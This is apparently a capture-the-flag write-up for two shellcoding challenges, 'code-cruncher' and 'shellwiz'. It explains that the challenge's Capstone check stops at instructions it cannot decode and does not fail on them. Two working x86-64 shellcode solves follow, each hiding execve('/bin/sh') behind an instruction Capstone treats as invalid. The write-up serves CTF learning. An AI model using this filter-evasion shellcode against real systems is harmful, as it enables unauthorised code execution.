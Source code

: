 # code-cruncher

The actual specifics of the challenge do not really matter, I just want to discuss an unintended I found to solve both shellcoding challenges.

```c open
    int64_t var_138
    int64_t rax_6 = cs_disasm(var_130, &buf, sx.q(rax_1), _init, 0, &var_138)
    int64_t var_28 = 0
    
    if (rax_6 == 0)
        puts(str: "Error: Unable to disassemble she…")
        cs_close(&var_130)
        exit(status: 1)
        noreturn
```

The challenge author (LMS) made the assumption that `cs_disasm` returns `NULL` if it fails to disassemble the provided bytes (e.g. it returns `NULL` when it encounters an invalid instruction). However this is not the case :D. The return value of `cs_disasm`, by default is the number of instructions it was able to successfully disassemble. Capstone does not actually care about invalid instructions and instead of returning an error simply stops disassembling once it reaches them.

We can exploit this by sending shellcode to the effect of:
```x86asm filename="solve.asm" open
    bits 64
    default rel
    global _start

_start:
    vzeroupper
    ; capstone does not know this instruction exists
    ; and believes it is invalid, however on real hardware
    ; rdsspq is effectively a nop
    rdsspq     rax
next:
    mov eax, 0x3b
    lea rdi, [shell]
    xor esi, esi
    xor edx, edx
    syscall

shell: db "/bin/sh", 0
```

The solve for shellwiz is slightly different but also abuses invalid instructions to bypass the challenge restrictions:
```x86asm filename="solve.asm" open
;;; solve for shellwiz
    jmp payload
invalid:
    ; invalid instruction in 64 bit mode
    db 0x06
payload:
    mov eax, 0x3b
    lea rdi, [shell]
    xor esi, esi
    xor edx, edx
    syscall
shell: db "/bin/sh", 0
```
